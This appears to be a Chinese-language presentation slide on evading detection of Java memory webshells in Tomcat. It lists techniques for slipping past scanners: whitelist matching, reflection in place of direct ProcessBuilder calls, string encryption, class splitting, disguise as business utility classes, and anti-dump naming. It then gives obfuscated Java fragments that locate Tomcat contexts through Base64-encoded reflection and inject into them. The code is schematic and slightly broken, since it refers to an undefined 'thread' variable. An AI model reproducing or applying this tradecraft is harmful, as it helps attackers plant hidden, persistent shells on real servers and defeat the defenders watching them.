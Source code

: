 </div>

---

# 字节码特征消除

仅是做混淆，实际上并不能逃过 ASM 词法分析规则

- 主动扫描工具为了减少对应用的影响，一般设置有白名单，使类特征命中白名单即可绕过
- 选取非常见 Web 组件挂载内存马（调用的 API 不在黑名单规则之中）
- 将类方法调用改为反射调用，例如 ProcessBuilder.start，并将所有字符串进行加密
- 将单个类，拆分成各个小的混淆类，增加调用链深度，提高溯源成本
- 业务类模拟，文件管理业务（fileUtils）、命令执行业务（oshi 工具类）
- 使用一般 dump 工具无法正常 dump 的 class 名称或特殊字节码序列，保护样本

<div class="grid grid-cols-[2fr_3fr] gap-2">

```java
a {
  try {
    Object[] c = f.a(); // 获取上下文对象
    for(Object x: c){
      if(a.i(x)){ // 判断是否未注入
        c.a(x); // 执行注入动作
      }
    }
  }catch(Exception e){}
}
```

```java {*}{maxHeight: '200px'}
f {
  a {
    for (Thread t : Thread.getAllStackTraces().keySet()) {
        if (thread.getName().contains(a("Q29udGFpbmVyQmFja2dyb3VuZFByb2Nlc3Nvcg=="))) {
            Map<?, ?> m = (Map<?, ?>) g(g(g(t, a("dGFyZ2V0")), a("dGhpcyQw")), a("Y2hpbGRyZW4="));
            for (Object v : m.values()) {
                Map<?, ?> d = (Map<?, ?>) g(v, a("Y2hpbGRyZW4="));
                c.addAll(d.values());
            }
            continue;
        }else if (t.getContextClassLoader() != null 
            && (t.getContextClassLoader().getClass().toString().contains(a("UGFyYWxsZWxXZWJhcHBDbGFzc0xvYWRlcg=="))
            || t.getContextClassLoader().getClass().toString().contains(a("VG9tY2F0RW1iZWRkZWRXZWJhcHBDbGFzc0xvYWRlcg==")))) {
            c.add(g(g(t.getContextClassLoader(), a("cmVzb3VyY2Vz")), a("Y29udGV4dA==")));
        }
    }
    return c;
  }
}
```
